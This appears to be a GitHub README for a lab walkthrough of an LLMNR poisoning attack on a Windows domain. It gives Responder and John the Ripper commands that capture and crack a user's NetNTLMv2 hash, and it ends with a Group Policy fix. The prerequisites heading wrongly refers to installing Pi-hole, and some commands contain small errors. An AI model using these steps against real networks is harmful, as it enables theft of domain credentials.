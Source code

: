 # LLMNR-Poisoning-Attack
[![LLMNR-Poisoning-Attack](https://img.youtube.com/vi/zEDUxnYiLx0/maxresdefault.jpg)](https://www.youtube.com/watch?v=zEDUxnYiLx0)

# Getting Started

### To install Pi-hole on an Ubuntu Server machine, you need to ensure that you meet the following prerequisites: 
- Machine running Kali Linux.
  - Connection to the LAN of the Windows machines
- Windows domain controller
  - Windows client connected to the domain controller
- Up-to-date system: It's always recommended to have an updated Kali system. Run the following commands to update your system:
```sh
sudo apt update
sudo apt upgrade
# system update/upgrade commands
  ```
# Obtaining password hash

#### Step 1: Responder
- Open terminal and run the following command.
```sh
responder -I eth0 -v

#opens Responder on eth0 interface to listen for activity
```
#### Step 2: Windows client query
- Open "Run" application and run the following command.
```sh
\\unknown-folder

# since there is no "unknown-folder" located on this domain, the machine will send a multicast request to all devices on the LAN.
```
#### Step 3: Save hash to .txt file
![hash - Copy](https://github.com/S-Hill256/LLMNR-Poisoning-Attack/assets/138057919/c33dd140-0c05-4489-a50f-5462de09a0a7)

- Highlight and copy the entire hash starting at "mscott::MYDOMAIN:
  - Open new terminal tab.
    -   Run the follwoing command.
```sh
vim scott.txt
# this open vim text editor, and allows us to create a .txt to store the hash
```
- Paste the hash into vim.
-   To save and exit your file.
```sh
press "esc"
#  exit insert mode.
press "shift + I"
type ":wq!"
# to save and exit
```
#### Step 4: Crack hash using John The Ripper
- Run the following command in terminal.
```sh
john --wordlist=usr/share/wordlists/rockyou.txt --format=netntlmv2 (.txt your made)
# runs the hash .txt file against the rockyou.txt wordlist
```

![ashw](https://github.com/S-Hill256/LLMNR-Poisoning-Attack/assets/138057919/cb2701aa-0865-4598-aa0a-4ff0aaecf258)
- We see our Windows client login credentials.
  -  Pass: Password1 | username: mscott

# Patching

Open "Local Group Policy Editor"
- Go to Computer Configuration > Administrative Templates > Network > DNS Client > "Turn off multicast name resolution"
  - Click Enable, and Apply changes.
